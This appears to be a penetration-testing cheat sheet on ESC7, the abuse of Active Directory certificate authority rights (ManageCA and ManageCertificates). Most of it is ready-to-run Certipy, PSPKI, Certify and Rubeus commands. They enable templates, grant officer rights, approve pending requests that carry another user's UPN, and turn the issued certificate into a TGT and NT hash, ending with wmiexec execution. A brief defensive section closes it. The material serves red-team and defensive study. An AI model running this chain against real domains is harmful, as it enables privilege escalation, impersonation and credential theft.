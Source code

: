 # ESC7—Vulnerable Certificate Authority Access Control

## Theory

A Certificate Authority (CA) exposes two powerful rights: **ManageCA** and **ManageCertificates**.

- **ManageCA** lets a principal change CA configuration (e.g., flip the `EDITF_ATTRIBUTESUBJECTALTNAME2` bit that controls whether the CA accepts SANs supplied in requests). Changing some flags may require a CertSvc restart to take effect.
- **ManageCertificates** lets a principal approve/issue pending certificate requests, bypassing manager approval protections.
    Abuse of either (or both) can enable or accelerate template-based escalation chains (ESC1/ESC6/ESC3 etc.) by enabling SAN acceptance, enabling templates, issuing denied requests, or approving pending requests.

## Requirements

- An account with **ManageCA** and/or **ManageCertificates** on the target CA (or the ability to assign those rights).
- Ability to query the CA and submit certificate requests (e.g., domain user context with enroll rights on some templates).

## Placeholders

`<DOMAIN>` `<USER>` `<PASS>` `<DC_IP>` `<CA_FQDN>` `<CA_NAME>` `<CA_CONFIG_HOST>` `<TEMPLATE_NAME>` `<SUBCA_TEMPLATE>` `<PENDING_REQUEST_ID>` `<SAVED_KEYFILE>` `<SAVED_PEM>` `<PFX_FILE>` `<TARGET_FQDN>` `<FOREST_DN>`

---

## Linux—Enumerate & Abuse ManageCA

### Enumerate CA Permissions & Flags

```bash
certipy find -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> -vulnerable -stdout
# Inspect CA blocks for:
#  - 'ManageCa' or 'ManageCertificates' listed under Permissions
#  - 'User Specified SAN' (UserSpecifiedSAN / EDITF_ATTRIBUTESUBJECTALTNAME2)
#  - Request Disposition (Issue / Pending)
#  - Web Enrollment, Enforce Encryption for Requests
```

### Check Presence / State of SubCA Template (example)

```bash
certipy find -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> -stdout
# Look for bult-in template named SubCA and whether Enabled: True
```

### Enable/disable CA Templates (requires ManageCA)

```bash
certipy ca -u '<USER>@<DOMAIN>' -p '<PASS>' -ca '<CA_NAME>' -enable-template '<TEMPLATE_NAME>'
# or
certipy ca -u '<USER>@<DOMAIN>' -p '<PASS>' -ca '<CA_NAME>' -disable-template '<TEMPLATE_NAME>'
```

### Add a Certificate Officer (grant ManageCertificates) (requires ManageCA)

```bash
certipy ca -u '<USER>@<DOMAIN>' -p '<PASS>' -ca '<CA_NAME>' -add-officer <TARGET_PRINCIPAL>
# <TARGET_PRINCIPAL> can be a username or group that will receive ManageCertificates
```

### Create a Request that Will Pend (template Requires approval)

```bash
certipy req -u '<USER>@<DOMAIN>' -p '<PASS>' -ca '<CA_NAME>' -template '<TEMPLATE_NAME>' -upn '<TARGET_UPN>'
# If 'Requires Manager Approval' is True or template pend flag set, note the Request ID and save private key when prompted (e.g., '<SAVED_KEYFILE>')
```

### Issue / Approve a pending Request (requires ManageCertificates)

```bash
certipy ca -u '<USER>@<DOMAIN>' -p '<PASS>' -ca '<CA_NAME>' -issue-request <PENDING_REQUEST_ID>
```

### Retrieve an Issued Certificate

```bash
certipy req -u '<USER>@<DOMAIN>' -p '<PASS>' -ca '<CA_NAME>' -retrieve <PENDING_REQUEST_ID>
# cert and key saved to '<PFX_FILE>' (or saved PEM/key you combined)
```

### Use the Certificate (get TGT / NT hash)

```bash
certipy auth -pfx '<PFX_FILE>' -username '<TARGET_USER>' -domain '<DOMAIN>' -dc-ip <DC_IP>
# Produces <TARGET_USER>.ccache and may reveal NT hash
KRB5CCNAME=<TARGET_USER>.ccache wmiexec.py -k -no-pass <TARGET_FQDN>
```

---

## Windows—Enumerate & Abuse ManageCA / ManageCertificates

### Enumerate CA ACLs (PSPKI)

```powershell
Import-Module .\PSPKI.psd1
Get-CertificationAuthority -ComputerName '<CA_CONFIG_HOST>' | Get-CertificationAuthorityAcl | select -ExpandProperty access
# Look for 'ManageCA' and/or 'ManageCertificates' for identities
```

### Check CA EditFlags (certutil)

```powershell
certutil.exe -config "<CA_FQDN>\<CA_NAME>" -getreg "policy\EditFlags"
# Inspect returned EditFlags bits for EDITF_ATTRIBUTESUBJECTALTNAME2 presence
```

### Read/modify EditFlags via Script (requires ManageCA)

```powershell
# Example using a registry/COM helper (placeholder API)
$cfg = New-Object SysadminsLV.PKI.Dcom.Implementations.CertSrvRegManagerD '<CA_CONFIG_HOST>'
$cfg.SetRootNode($true)
# Get current flags
$flags = $cfg.GetConfigEntry('EditFlags','PolicyModules\CertificateAuthority_MicrosoftDefault.Policy')
# Set new flags (value must be appropriate, e.g., enable or disable ATTRIBUTESUBJECTALTNAME2)
$cfg.SetConfigEntry(<NEW_FLAGS_VALUE>,'EditFlags','PolicyModules\CertificateAuthority_MicrosoftDefault.Policy')
# Note: CA service may require restart for some changes to take effect
```

### Approve / Issue pending Requests (requires ManageCertificates)

```powershell
# Find pending requests
Get-CertificationAuthority -ComputerName '<CA_CONFIG_HOST>' | Get-PendingRequest

# Approve a specific request
Get-CertificationAuthority -ComputerName '<CA_CONFIG_HOST>' | Get-PendingRequest -RequestID <PENDING_REQUEST_ID> | Approve-CertificateRequest
```

### Add a CA Officer (grant ManageCertificates) (requires ManageCA)

```powershell
Get-CertificationAuthority '<CA_CONFIG_HOST>' | Get-CertificationAuthorityAcl |
  Add-CertificationAuthorityAcl -Identity "<TARGET_PRINCIPAL>" -AccessType Allow -AccessMask "ManageCertificates" |
  Set-CertificationAuthorityAcl -RestartCA
```

### Request a Cert that Will Pend, save the Private Key

```powershell
.\Certify.exe request /ca:<CA_FQDN>\<CA_NAME> /template:<TEMPLATE_NAME> /altname:<TARGET_UPN>
# If pending, capture the Request ID and copy the generated private key PEM output to a file ('<SAVED_KEYFILE>')
```

### Download/convert Approved Certificate and Build PFX

```powershell
.\Certify.exe download /ca:<CA_FQDN>\<CA_NAME> /id:<PENDING_REQUEST_ID> > issued.pem
# Append saved private key file content to the pem, then:
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 -in issued_with_key.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out '<PFX_FILE>'
```

### Use Certificate for PKINIT / Extract Creds

```powershell
.\Rubeus.exe asktgt /user:<TARGET_USER> /certificate:'<PFX_FILE>' /getcredentials /nowrap
# Grab base64 TGT or NTLM hash and proceed with standard Kerberos/ptt flows
```

---

## Practical Abuse Patterns

- **Flip CA flags** (ManageCA) to enable `UserSpecifiedSAN` so enrollment flows that accept SANs become usable. Some changes require a CA restart.
- **Add yourself as a CA officer** (ManageCertificates) and **issue pending or denied requests** to obtain certs you cannot directly enroll for.
- **Enable/disable templates** to make dangerous templates (e.g., SubCA or AnyPurpose) available.
- **Combine** ManageCA and ManageCertificates to both enable features and immediately approve requests, shortening escalation chains.

## Defensive Notes

- Lock down CA ACLs: restrict **ManageCA** and **ManageCertificates** to a small, audited group.
- Harden `EditFlags`: avoid enabling `EDITF_ATTRIBUTESUBJECTALTNAME2` unless necessary.
- Require authorized signatures / manager approval where practical and enforce encryption for ICPR/ICPR requests.
- Monitor CA ACL changes, pending requests, and template enable/disable events.
